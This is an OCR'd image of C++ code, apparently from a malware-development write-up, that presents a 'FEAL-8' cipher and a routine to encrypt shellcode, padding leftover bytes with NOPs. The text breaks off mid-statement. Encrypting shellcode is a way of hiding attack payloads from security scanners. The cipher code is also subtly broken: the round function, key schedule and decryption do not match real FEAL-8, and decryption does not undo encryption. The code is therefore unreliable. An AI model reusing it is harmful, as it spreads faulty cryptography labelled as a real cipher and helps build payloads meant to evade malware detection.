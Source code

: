 ```cpp
// function F used in FEAL-8
uint32_t F(uint32_t x1, uint32_t x2) {
  return rotl((x1 ^ x2), 2);
}

// function G used in FEAL-8
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempLeft = *left;
  *left = *right;
  *right = tempLeft ^ F(*left, *right) ^ *(uint32_t*)roundKey;
}

// key schedule for FEAL-8
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 8; j++) {
      K[i][j] = key[j] ^ (i + j);
    }
  }
}

// FEAL-8 encryption function
void feal8_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}

// FEAL-8 decryption function
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}

// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_encrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
```